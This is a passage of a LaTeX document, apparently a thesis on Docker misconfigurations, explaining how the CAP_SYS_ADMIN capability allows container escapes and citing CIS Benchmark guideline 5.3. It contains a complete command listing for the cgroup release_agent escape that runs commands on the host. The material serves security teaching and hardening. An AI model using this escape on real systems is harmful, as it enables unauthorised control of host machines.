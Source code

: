 \subsection{Capabilities}\label{misconfigurations:subsection:capabilities}
As we saw in \autoref{protection-mechanisms:subsection:capabilities}, in order to perform privileged actions in the Linux kernel, a process needs the relevant \lstinline{capability}. Docker containers are started with minimal capabilities, but it is possible to add extra capabilities at runtime. Giving containers extra capabilities gives the container permission to perform certain actions. Some of these actions allow Docker escapes. We will look at two such capabilities in the following sections.

\medskip

The CIS Docker Benchmark covers all of these problems in one guideline: 5.3 (Ensure that Linux kernel capabilities are restricted within containers).

\subsubsection{\texorpdfstring{\lstinline{CAP_SYS_ADMIN}}{CAP SYS ADMIN}}\label{CAP_SYS_ADMIN}
The Docker escape by Felix Wilhelm~\cite{Felix-Wilhem-Tweet} we used in \autoref{subsection:privileged} needs to be run in privileged mode to work, but it can be rewritten to only need the permission to run \lstinline{mount}~\cite{TrailOfBits-Docker-Escape}, which is granted by the \lstinline{CAP_SYS_ADMIN} capability.

\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_SYS_ADMIN}.},captionpos=b]
(host)$ docker run --rm -it --cap-add=CAP_SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
(cont)# mkdir /tmp/cgrp
(cont)# mount -t cgroup -o rdma cgroup /tmp/cgrp
(cont)# mkdir /tmp/cgrp/x
(cont)# echo 1 > /tmp/cgrp/x/notify_on_release
(cont)# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# echo "$host_path/cmd" > /tmp/cgrp/release_agent
(cont)# echo '#!/bin/sh' > /cmd
(cont)# echo "ps aux > $host_path/output" >> /cmd
(cont)# chmod a+x /cmd
(cont)# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
(cont)# cat /output
\end{lstlisting}

Unlike before, instead of relying on \lstinline{--privileged} to give us write access to a \lstinline{cgroup}, we just need to mount our own. This gives us exactly the same scenario as we saw in \autoref{subsection:privileged}. We use a \lstinline{release_agent} to run code on the host. The only difference being that we have to do some manual work ourselves.

